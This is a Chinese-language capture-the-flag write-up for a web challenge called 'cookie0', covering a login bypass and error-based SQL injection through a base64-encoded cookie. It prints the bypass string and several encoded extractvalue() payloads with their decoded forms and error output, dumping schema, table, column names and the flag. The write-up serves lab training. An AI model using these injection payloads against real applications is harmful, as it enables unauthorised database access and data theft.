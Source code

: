 ## 题目信息

出题人 MercyL1n

出题时间 201910

题目名字 cookie0

题目类型 web

题目难度 中

## 题目描述

粗心的Mercy设置好flag后忘记了自己的账号密码,只记得账号是MercyL1n了

## 题目考点

base64编码

sql报错注入&绕过

## 题目环境

1.ubuntu 16.04

2.Apache2

3.php7

## 题目writeup

密码输入' or '1'='1绕过登陆

burpsuite抓包修改cookie

![1571319370229](C:\Users\18506\AppData\Roaming\Typora\typora-user-images\1571319370229.png)

```
Cookie: uname=IiBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KCI6Iiwoc2VsZWN0IGdyb3VwX2NvbmNhdChzY2hlbWFfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGEpKSkgIw==
-> " and extractvalue(1,concat(":",(select group_concat(schema_name) from information_schema.schemata))) #
->  syntax error: ':information_schema,mercyl1n,mys'

Cookie: uname=IiBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KCI6Iiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgd2hlcmUgdGFibGVfc2NoZW1hID0gJ21lcmN5bDFuJykpKSAj
->" and extractvalue(1,concat(":",(select group_concat(table_name) from information_schema.tables where table_schema = 'mercyl1n'))) #
->syntax error: ':user'

Cookie: uname=IiBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KCI6Iiwoc2VsZWN0IGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lID0gJ3VzZXInKSkpICM=
->" and extractvalue(1,concat(":",(select group_concat(column_name) from information_schema.columns where table_name = 'user'))) #
->syntax error: ':id,uname,passwd,flag,Host,User,'

Cookie: uname=IiBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KCI6Iiwoc2VsZWN0IGZsYWcgZnJvbSBtZXJjeWwxbi51c2VyKSkpICM=
->" and extractvalue(1,concat(":",(select flag from mercyl1n.user))) #
->flag{easy_cookie_sqli}


```

